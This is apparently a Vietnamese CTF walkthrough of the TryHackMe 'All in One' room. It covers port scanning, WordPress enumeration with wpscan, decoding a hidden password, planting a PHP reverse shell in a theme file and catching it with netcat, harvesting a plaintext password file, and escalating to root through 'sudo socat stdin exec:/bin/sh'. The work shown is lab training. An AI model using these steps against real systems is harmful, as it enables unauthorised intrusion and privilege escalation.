

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | All in One](https://tryhackme.com/room/allinonemj)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm là quét các cổng đang mở trên máy chủ mục tiêu.

```python
PORT   STATE SERVICE REASON  VERSION
21/tcp open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.0.191
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e25c3322765c9366cd969c166ab317a4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLcG2O5LS7paG07xeOB/4E66h0/DIMR/keWMhbTxlA2cfzaDhYknqxCDdYBc9V3+K7iwduXT9jTFTX0C3NIKsVVYcsLxz6eFX3kUyZjnzxxaURPekEQ0BejITQuJRUz9hghT8IjAnQSTPeA+qBIB7AB+bCD39dgyta5laQcrlo0vebY70Y7FMODJlx4YGgnLce6j+PQjE8dz4oiDmrmBd/BBa9FxLj1bGobjB4CX323sEaXLj9XWkSKbc/49zGX7rhLWcUcy23gHwEHVfPdjkCGPr6oiYj5u6OamBuV/A6hFamq27+hQNh8GgiXSgdgGn/8IZFHZQrnh14WmO8xXW5
|   256 1b6a36e18eb4965ec6ef0d91375859b6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBF1Ww9ui4NQDHA5l+lumRpLsAXHYNk4lkghej9obWBlOwnV+tIDw4mgmuO1C3U/WXRgn0GrESAnMpi1DSxy8t1k=
|   256 fbfadbea4eed202b91189d58a06a50ec (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAOG6ExdDNH+xAyzd4w1G4E9sCfiiooQhmebQX6nIcH/
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Khi thử truy cập ftp với port 21 bằng user *Anonymous*, tôi không thu được gì vì trong này trống trơn. Tôi cũng thử put file lên nhưng không có kết quả.

Quay lại với web ở port 80, dùng *dirsearch* để tìm path ẩn

```python
[03:21:47] 301 -  316B  - /wordpress  ->  http://10.10.248.46/wordpress/   
[03:23:23] 200 -  197B  - /hackathons   
```

Điều này có nghĩa là web được build bằng Wordpress. Tuy nhiên trước đó tôi sẽ vào thử path ẩn còn lại. Xem source web của nó và tôi có 1 đoạn encode

```python
<html>
<body>

<h1>Damn how much I hate the smell of <i>Vinegar </i> :/ !!!  </h1>

<!-- Dvc W@iyur@123 -->
<!-- KeepGoing -->
</body>
</html>
```

Sử dụng *CyberChef* với key là *KeepGoing*


Lưu đoạn text này và quay trở lại với wordpress


Tôi có 1 cái tên ở đây là elyana, cũng có thể là username luôn.

Sử dụng *wpscan* để khai thác về web này.

```python
┌──(kali㉿kali)-[~]
└─$ wpscan --url http://10.10.68.232/wordpress/ -e vp,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://10.10.68.232/wordpress/ [10.10.68.232]
[+] Started: Thu Nov 17 02:31:59 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.68.232/wordpress/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.10.68.232/wordpress/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://10.10.68.232/wordpress/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.68.232/wordpress/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).
 | Found By: Rss Generator (Passive Detection)
 |  - http://10.10.68.232/wordpress/index.php/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>
 |  - http://10.10.68.232/wordpress/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>

[+] WordPress theme in use: twentytwenty
 | Location: http://10.10.68.232/wordpress/wp-content/themes/twentytwenty/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://10.10.68.232/wordpress/wp-content/themes/twentytwenty/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://10.10.68.232/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5
 | Style Name: Twenty Twenty
 | Style URI: https://wordpress.org/themes/twentytwenty/
 | Description: Our default theme for 2020 is designed to take full advantage of the flexibility of the block editor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.5 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://10.10.68.232/wordpress/wp-content/themes/twentytwenty/style.css?ver=1.5, Match: 'Version: 1.5'

[+] Enumerating Vulnerable Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] No plugins Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:02 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:02

[i] User(s) Identified:

[+] elyana
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://10.10.68.232/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
```

Từ những thông tin trên, tôi thu được 1 wordpress với phiên bản 5.5.1, nó đang sử dụng theme *twentytwenty* phiên bản cũ, đây có thể là 1 lưu ý để thực hiện RCE sau khi đã login được vào wordpress.

Tiếp theo là user *elyana* đúng như tôi dự đoán phía trên. Vậy thì tôi sẽ thử login wordpress với username *elyana* và pass là đoạn text tôi vừa tìm được

Tôi thành công với *elyana - H@ckme@123*. Truy cập vào theme *twentytwenty* và sửa nó với shell php của tôi, thay đổi địa chỉ ip và port bằng địa chỉ máy của tôi và update file.



Sau đó tạo listener với netcat: `nc -lnvp 2402`

Truy cập vào link: `http://10.10.183.28/wordpress/wp-content/themes/twentytwenty/404.php`

```python
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 2402                
listening on [any] 2402 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.183.28] 54774
Linux elyana 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:00:05 up 26 min,  0 users,  load average: 0.00, 0.02, 0.29
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

## SSH

```python
$ cd /home
$ ls
elyana
$ cd /home/elyana
$ ls
hint.txt
user.txt
$ cat user.txt
cat: user.txt: Permission denied
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat hint.txt
Elyana's user password is hidden in the system. Find it ;)
$ 
$ find / -type f -user elyana 2>/dev/null
/home/elyana/user.txt
/home/elyana/.bash_logout
/home/elyana/hint.txt
/home/elyana/.bash_history
/home/elyana/.profile
/home/elyana/.sudo_as_admin_successful
/home/elyana/.bashrc
/etc/mysql/conf.d/private.txt
$ cat /etc/mysql/conf.d/private.txt
user: elyana
password: E@syR18ght
$ 
```

Thử login ssh với user *elyana*

```python
┌──(kali㉿kali)-[~]
└─$ ssh elyana@10.10.183.28
The authenticity of host '10.10.183.28 (10.10.183.28)' can't be established.
ED25519 key fingerprint is SHA256:Rm7wS3JV0q1IHCuI5dWaanuCoSlTYECCa9jTEE4BFsI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.183.28' (ED25519) to the list of known hosts.
elyana@10.10.183.28's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Nov 17 09:11:29 UTC 2022

  System load:  0.07              Processes:           116
  Usage of /:   53.3% of 6.41GB   Users logged in:     0
  Memory usage: 62%               IP address for eth0: 10.10.183.28
  Swap usage:   0%


16 packages can be updated.
0 updates are security updates.


Last login: Fri Oct  9 08:09:56 2020
-bash-4.4$ id
uid=1000(elyana) gid=1000(elyana) groups=1000(elyana),4(adm),27(sudo),108(lxd)
-bash-4.4$ 
-bash-4.4$ ls 
hint.txt  user.txt
-bash-4.4$ 
```

## Privilege escalation

`sudo -l`

```python
-bash-4.4$ sudo -l
Matching Defaults entries for elyana on elyana:                                                                                                                                              
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                        
                                            
User elyana may run the following commands on elyana:                                                                                                                                        
    (ALL) NOPASSWD: /usr/bin/socat                                                                                                                                                           
```

[socat | GTFOBins](https://gtfobins.github.io/gtfobins/socat/)

```python                                                                                                                                                        
-bash-4.4$ sudo socat stdin exec:/bin/sh                                                                                                                                                     
id                                                                                                                                                                                           
uid=0(root) gid=0(root) groups=0(root) 
ls /root                                                                                                                                                                                     
root.txt                                                                                                                                                                                     
```

